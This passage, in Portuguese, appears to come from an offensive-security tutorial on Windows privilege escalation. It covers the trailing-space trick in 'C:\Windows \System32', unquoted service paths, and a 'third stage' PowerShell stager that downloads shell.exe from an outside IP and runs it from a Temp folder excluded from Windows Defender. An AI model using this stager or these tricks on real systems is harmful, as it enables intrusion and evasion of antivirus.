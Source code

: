 Quando você escreve `C:\Windows \System32`, o Windows pode interpretar esse caminho de maneira inesperada. Isso acontece porque:

- No Windows, os caminhos são normalizados antes de serem processados.
- O espaço pode fazer com que o interpretador de comandos ou a API de sistema tente resolver o caminho de forma diferente.
- Algumas funções podem considerar `C:\Windows \System32` como `C:\Windows\System32`, mas outras podem não reconhecer corretamente o diretório e acabar redirecionando para outro local.

### 4.5.2. Criação de um novo diretório

Como não temos permissão de escrita em `C:\Windows` e quando criamos um diretório `C:\Windows \System32`, o Windows entende que `System32` é uma nova pasta dentro de `C:\Windows `. Isso significa que você pode criar um diretório `C:\Windows `, onde tem permissão de escrita.

### 4.5.3. Como explorar isso para Escalação de Privilégios?

Esse tipo de situação é explorável em um tipo de ataque que se chama **Unquoted Service Path** ou **Unquoted Path**. Essa vulnerabilidade ocorre quando o caminho para um executável de serviço contém espaços e não está devidamente delimitado por aspas, permitindo que um atacante crie executáveis maliciosos em caminhos inesperados. Por exemplo, um caminho de serviço como `C:\Program Files\My Program\Service.exe` sem aspas pode ser interpretado pelo sistema como `C:\Program.exe`, se tal arquivo existir, permitindo a execução não intencional de um programa malicioso. Além disso, o uso de espaços em caminhos de arquivos pode causar comportamentos inesperados no Windows. Por exemplo, ao lidar com caminhos que contêm espaços, é necessário escapar ou delimitar corretamente o caminho com aspas para evitar interpretações errôneas pelo sistema. Embora esses exemplos não correspondam exatamente ao cenário que estamos trabalhando aqui, eles demonstram como espaços em caminhos de arquivos podem ser manipulados para explorar vulnerabilidades ou contornar restrições de segurança no Windows.

## 4.6. Criando o nosso `shell.ps1`

Agora vamos criar o arquivo do terceiro estágio do nosso ataque:

```powershell
$exePath = "$env:TEMP\c2.exe"
Invoke-WebRequest -Uri "http://192.168.145.115/stage3/shell.exe" -OutFile $exePath
Start-Process -FilePath $exePath
```

Aqui, basicamente vamos salvar o nosso shell como um outro nome na pasta Temp que já foi inclusa como exceção no Windows Defender.

<figure style="text-align: center;">